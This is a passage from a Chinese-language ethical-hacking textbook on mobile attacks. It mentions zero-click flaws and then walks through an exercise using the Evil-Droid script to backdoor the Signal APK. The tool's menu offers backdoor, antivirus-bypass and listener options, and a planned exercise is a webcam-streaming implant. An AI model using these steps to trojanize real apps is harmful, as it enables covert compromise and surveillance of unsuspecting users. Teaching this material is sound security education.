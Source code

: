 *图 10-14：此二维码将带你到* [`nostarch.com/catalog/security`](https://nostarch.com/catalog/security)*。*

一些最好的移动攻击利用了*零点击漏洞*。零点击漏洞允许攻击者在用户不做任何操作的情况下攻破移动设备。这些漏洞非常罕见且极具价值。

关于移动设备的最后说明：虽然 iOS 设备通常被认为更安全，但它们也并不完全安全。例如，Facebook 的 WhatsApp 平台中的一个漏洞允许黑客通过发送链接给 WhatsApp 用户，从而在 iPhone 上安装恶意软件。后来，一个国家级黑客组织利用这个漏洞攻击了亚马逊 CEO 杰夫·贝佐斯的 iPhone。

### **练习**

这些练习将增强你对木马的理解。你将首先探索一个自动化创建和签名 Android 木马的工具。在第二个练习中，你将用 Python 编写一个植入物。你的植入物应该从受害者的网络摄像头实时播放视频，并将其传输回攻击者的服务器。

#### ***Evil-Droid***

*Evil-droid*是一个 Bash 脚本，用于自动化 APK 植入和签名过程。你可以通过运行以下命令从 GitHub 下载它：

```
kali@kali:~$ git clone https://github.com/M4sc3r4n0/Evil-Droid
```

接下来，你需要下载你想要转换为木马的应用的 APK 文件。在这个例子中，我们将使用 Signal 应用的 APK 文件，这是一种加密消息服务，你可以在*[`signal.org/android/apk/`](https://signal.org/android/apk/)*找到它。要选择来自 Google Play 商店的其他 APK，请使用`gplaycli`，这是一款免费的开源工具，允许你从商店下载 APK 文件。你可以从*[`github.com/matlink/gplaycli`](https://github.com/matlink/gplaycli)*安装它。

下载 APK 文件后，导航到*Evil-Droid*文件夹中的 Bash 脚本，并更改脚本的权限，使其可执行：

```
kali@kali:~$ cd Evil-Droid
kali@kali:~/Evil-Droid/$ chmod +x evil-droid
```

通过运行以下命令来启动 Evil-Droid 脚本：

```
kali@kali:~/Evil-Droid/$ ./evil-droid
```

一旦 Evil-Droid 脚本启动，你应该会看到以下内容：

```
------------------------------------------------

|          Evil-Droid Framework v0.3           |

|      Hack & Remote android platform          |

------------------------------------------------

[1] APK MSF

[2] BACKDOOR APK ORIGINAL (OLD)

[3] BACKDOOR APK ORIGINAL (NEW)

[4] BYPASS AV APK (ICON CHANGE)

[5] START LISTENER

[c] CLEAN

[q] QUIT

[?] Select>:
```

